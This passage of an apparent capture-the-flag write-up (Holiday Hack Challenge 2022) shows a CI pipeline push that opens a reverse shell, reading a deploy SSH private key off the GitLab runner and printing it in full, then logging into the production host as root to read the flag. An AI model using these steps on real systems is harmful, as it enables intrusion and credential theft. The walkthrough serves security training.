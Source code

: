 In another pane, created by pressing `^b` and `"`, we commit and push the changes we made.

```sh
git config user.name "foo"
git config user.email "foo@bar.baz"
git commit -am "update"
git push
```

Bam! We get a connection back.

```text
<ziL/0/rings-of-powder/wordpress.flag.net.internal# cd
gitlab-runner:~#
```

We had earlier observed from the repository's `.gitlab-ci.yml` that the runner has an SSH private key at `/etc/gitlab-runner/hhc22-wordpress-deploy` that is used to log into the `wordpress.flag.net.internal` endpoint as `root`. Let's quickly grab it through our reverse shell (Press `^b`, `↑` to switch to the reverse shell pane).

```sh
cat /etc/gitlab-runner/hhc22-wordpress-deploy
```

```text
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

We'll copy this to our clipboard, terminate our reverse shell and paste it to a file called `key`. Finally, we correct the permissions on it.

```sh
chmod 600 key
```

Now we can SSH into the production server.

```sh
ssh -i key root@wordpress.flag.net.internal
```

We can now read the flag.

```sh
cat /flag.txt
```

```
Congratulations! You've found the HHC2022 Elfen Ring!

--{snip}--

oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT

--{snip}--
```

